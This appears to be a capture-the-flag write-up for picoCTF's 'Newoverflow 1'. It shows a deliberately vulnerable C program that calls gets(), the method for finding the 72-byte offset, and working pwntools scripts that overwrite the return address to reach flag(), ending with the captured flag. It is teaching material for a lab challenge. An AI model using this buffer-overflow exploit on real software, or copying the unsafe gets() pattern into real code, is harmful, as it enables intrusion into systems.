 # Newoverflow 1 (Binary)

![title](images/title.png)

<details>
	<summary>Source Code Vuln.c</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
</details>

get vulnerability with a return to "flag()" easyright? lets see

Lets start any overflow by getting the fill buffer

```bash
pwn cyclic 76 | strace ./vuln
pwn cyclic 0x61616173
```

output: **72**

Python script:

```python
#!/usr/bin/env python

from pwn import *

p = process('./vuln')
e = ELF('./vuln')

#get flag addr
flag = e.symbols['flag']

#offset
offset = 72

#payload
payload = ''
payload = 'A'*offset
payload+= p64(flag)

#just gonna send it
p.sendline(payload)

#flag?
p.interactive()
```
The output:

```
[*] Switching to interactive mode
[*] Process './vuln' stopped with exit code 0 (pid 14564)
Welcome to 64-bit. Give me a string that gets you the flag: 
'flag.txt' missing in the current directory!
[*] Got EOF while reading in interactive
```

Looks like we just need to copy this to the server and run it. After some troubleshooting I discovered an error in my script and had to adjusut the payload to

buffer
any function
flag function

The reason is the have proper memory alignment otherwise we get a segfault. The final python script

<details>
  <summary>Exploit</summary>

```python
#!/usr/bin/env python

from pwn import *

p = process('./vuln')
e = ELF('./vuln')


flag = e.symbols['flag']
main = e.symbols['main']

print hex(flag)

#offset
offset = 72

#payload
payload = ''
payload = 'A'*offset
payload+= p64(main)
payload+= p64(flag)

#just gonna send it
p.sendlineafter('\n', payload)

#flag?
p.interactive()
```
</details>

<details>
  <summary>Flag</summary>

picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_d0b837aa}
</details>